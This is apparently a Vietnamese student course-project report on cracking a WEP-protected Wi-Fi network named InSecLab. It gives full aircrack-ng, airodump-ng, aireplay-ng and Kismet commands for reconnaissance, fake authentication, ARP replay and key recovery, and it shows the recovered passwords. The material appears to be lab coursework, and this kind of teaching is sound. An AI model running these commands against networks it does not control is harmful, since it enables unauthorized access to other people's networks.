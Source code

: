# Báo cáo đồ án môn học
## 1. Sử dụng Aircrack-ng + Airodump-ng + Aireplay-ng để bẻ khóa các mật mã đơn giản
### Bước 1: Tìm đối tượng để thực hiện tấn công.
Sử dụng **airodump-ng** để tìm kiếm các wifi có mã hóa WEP
```s 
 $ airodump-ng wlan0mon
```
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/airodump-ng.png?raw=true)
Các thông tin về wifi:
- BSSID: **C0:4A:00:71:34:9c** (là địa chỉ MAC của AP).
- Channel: **11** (kênh giao tiếp của AP).
- ESSID: **InSecLab** (tên của wifi).
- Wifi sử dụng mã hóa **WEP**.

Thực hiện chuyển channel của wlan0mon thành **11** (giống với channel của AP)
```sh
 $ iwconfig wlan0mon channel 11
```

### Bước 2: Kiểm tra Packet Injection
```sh
 $ aireplay-ng -9 -e InSecLab -a C0:4A:00:71:34:9C wlan0mon
```
- -9 là lựa chọn Injection test.
- -e là tên của wifi.
- -a là địa chỉ MAC của AP.
- wlan0mon là wireless interface.

Kết quả nhận được khi thực hiện lệnh trên
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/injection_test.png)
=> Kết quả trả về thành công (**30/30: 100%**)

### Bước 3: Sử dụng airodump-ng để bắt các IV (Initial Vector)
Ở bước này chúng ta sẽ sử dụng ***airodump-ng*** để bắt các **IV** được tạo ra bởi AP.
```sh
 $ airodump-ng -c 11 --bssid C0:4A:00:71:34:9C -w CaptureIV wlan0mon
```
- -c 11 là channel của mạng wifi.
- --bssid **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -w CaptureIV là file chứa những IV bắt được.
- wlan0mon là wireless interface.

![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/CaptureIV.png)

### Bước 4: Sử dụng aireplay-ng để tạo xác thực giả với AP
Nếu không có các kết nối nào khác vào AP thì sẽ không tạo mới các IV. Nên ta sẽ tạo ra các xác thực giả đến AP nhằm tạo ra các IV và bắt nó.
```sh
 $ aireplay-ng -1 0 -e InSecLab -a C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
- -1 nghĩa là xác thực giả.
- 0 là thời gian để gửi lại gói tin.
- -e **InSecLab** là tên của wifi.
- -a **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -h **00:0c:29:b8:bf:f1** là địa chỉ MAC của máy chúng ta.
- **wlan0mon** là wireless interface.

![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/fakeauth.png)
=> Gửi xác thực giả thành công.

### Bước 5: Sử dụng aireplay-ng tăng tín hiệu ARP để tạo ra nhiều IV
```sh
 $ aireplay-ng -3 -b C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/ARP.png)

### Bước 6: Chờ để thu thập đủ IV cho việc crack
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/IVCrack.png)

### Bước 7: Sử dụng aircrack-ng để tìm password của AP
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/solve.png)
- Thời gian để tìm ra password là **0s**
- Password: **1234567890**

## 2. Sử dụng các phần mềm khác nhau để thực hiện việc bẻ khóa các mật mã phức tạp

Sử dụng Kismet để kiểm tra các Wifi xung quanh
```sh
 $ kismet -c wlan0mon
```
Sử dụng giao diện người dùng của Kismet
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/KismetUI.png)

Nhấp vào tên wifi để xem thông tin của wifi đó (trong bài thực hành này là InSecLab)
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/wifiinfo.png)
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/wifiinfo1.png)
- Thông tin bao gồm tên Wifi
- Địa chỉ MAC của AP
- Channel của AP
- Mã hóa WEP

Sau khi thu thập được địa chỉ **MAC**, **ESSID**, **CHANNEL** của AP ta sẽ tiến hành crack nó theo các bước đã trình bày ở trên.

Tiến hành thu thập **IVs**
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/CaptureIV1.png)

Tiến hành crack Wifi
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```

Kết quả
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/solve1.png)
=> Pass wifi: ***TAN@123tantan***
